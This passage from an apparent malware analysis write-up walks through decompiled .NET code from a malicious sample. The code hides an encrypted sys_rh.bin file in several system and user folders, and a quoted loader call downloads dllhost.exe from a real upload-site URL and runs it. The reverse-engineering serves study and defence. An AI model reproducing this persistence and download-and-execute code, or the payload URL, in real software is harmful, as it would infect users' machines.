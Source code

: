 After this, I decided to take a look at `MakeBridge()`:

```cs
public static void MakeBridge()
{
    string text = <Module>.smethod_3<string>(3560466304u); // "sys_rh.bin"
    string text2 = <Module>.smethod_4<string>(441497119u); // "C:\ProgramData\"
    string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData); // "C:\Users\user\AppData\Roaming"
    string tempPath = Path.GetTempPath();

    // paths to store sys_rh.bin in
    string[] array = new string[4]
    {
        <Module>.smethod_1<string>(2564705867u), // "C:\ProgramData\SystemFiles\"
        text2, // "C:\ProgramData\"
        folderPath, // "C:\Users\user\AppData\Roaming"
        tempPath // "C:\Users\[user]\AppData\Local\Temp\"
    };

    for (int i = 0; i < array.Length; i++)
    {
        using FileStream stream = new FileStream(array[i] + text, FileMode.OpenOrCreate, FileAccess.ReadWrite);
        using StreamWriter streamWriter = new StreamWriter(stream);
        streamWriter.WriteLine(<Module>.smethod_3<string>(1060706641u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(262256352u));
        streamWriter.WriteLine(<Module>.smethod_5<string>(347423502u));
        streamWriter.WriteLine(<Module>.smethod_5<string>(4291125391u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(488318846u));
        streamWriter.WriteLine(<Module>.smethod_3<string>(3140321804u));
        streamWriter.WriteLine(<Module>.smethod_3<string>(1656669095u));
        streamWriter.WriteLine(<Module>.smethod_4<string>(2403898489u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(3303012420u));
        streamWriter.WriteLine(<Module>.smethod_2<string>(4267099851u));
        streamWriter.WriteLine(<Module>.smethod_5<string>(428363068u));
        new FileInfo(array[i] + text).Attributes = FileAttributes.Hidden;
    }
}
```
> I was lazy and didn't dump the strings passed to `streamWriter.WriteLine()`

This method generates that `sys_rh.bin` file from earlier! It's placed in various spots starting from highest privileged directories down to local user files. [Looking at the generated file](sys_rh.bin), the data is encrypted with an unknown key (byte data stored as base64). After this, `LDR.DAF()` is called from the `Dendalion()` constructor, which looks like:

```cs
// LDR.DAF("https://dl.uploadgram.me/6342c0be64ba4h?raw", "C:\ProgramData\DllHost\", "dllhost.exe")
LDR.DAF(Crypter.Decrypt(watchlink, <Module>.smethod_4<string>(2308268466u)), <Module>.smethod_5<string>(581600440u), <Module>.smethod_4<string>(3273331201u), isexecute: true, iswatch: true);
```

Deobfuscating `LDR.DAF()` gives us:
